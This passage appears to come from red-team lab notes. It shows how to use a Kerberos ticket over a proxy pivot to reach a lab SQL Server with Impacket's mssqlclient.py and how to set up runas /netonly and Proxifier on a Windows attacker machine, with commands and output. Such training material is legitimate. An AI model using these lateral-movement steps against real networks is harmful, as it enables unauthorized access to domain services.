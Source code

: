 {% hint style="info" %}
You can also use `ticketConverter.py` to convert from `ccache` to `kirbi`.
{% endhint %}

### Using a TGT to Interact w/ a SQL-2 Service

**Now let's use this TGT to interact with the `SQL-2` service:**

```
ubuntu@DESKTOP-3BSK7NO ~> proxychains mssqlclient.py -dc-ip 10.10.122.10 -no-pass -k dev.cyberbotic.io/bfarmer@sql-2.dev.cyberbotic.io
ProxyChains-3.1 (http://proxychains.sf.net)
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

|S-chain|-<>-10.10.5.50:1080-<><>-10.10.122.25:1433-<><>-OK
[*] Encryption required, switching to TLS
|S-chain|-<>-10.10.5.50:1080-<><>-10.10.122.10:88-<><>-OK
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(SQL-2): Line 1: Changed database context to 'master'.
[*] INFO(SQL-2): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208)
[!] Press help for extra shell commands

SQL> select @@servername;

--------------------------------------------------------------------------------------------------------------------------------

SQL-2
```

**This may require adding a static host entry to&#x20;**<mark style="color:yellow;">**`/etc/hosts`**</mark>**&#x20;and changing the&#x20;**<mark style="color:yellow;">**`proxy_dns`**</mark>**&#x20;setting in&#x20;**<mark style="color:yellow;">**`/etc/proxychains.conf`**</mark>**&#x20;to&#x20;**<mark style="color:yellow;">**`remote_dns`**</mark>**:**

Kerberos tickets can also be leveraged from the Windows attacker machine.  The first step is to add `*.cyberbotic.io` your `Proxifier` proxification rule(s). &#x20;

This is because Kerberos uses hostnames rather than IP addresses and `Proxifier` won't proxy Kerberos traffic unless the domains are explicitly set in the rules.

<figure><img src="../.gitbook/assets/image (306).png" alt=""><figcaption></figcaption></figure>

**Next, launch an instance of `cmd.exe` or `powershell.exe` using `runas /netonly` with a valid domain username, but a fake password:**

```
PS C:\Users\Attacker> runas /netonly /user:dev.cyberbotic.io\bfarmer powershell.exe
Enter the password for dev.cyberbotic.io\bfarmer: FakePass
Attempting to start powershell.exe as user "dev.cyberbotic.io\bfarmer" ...
```
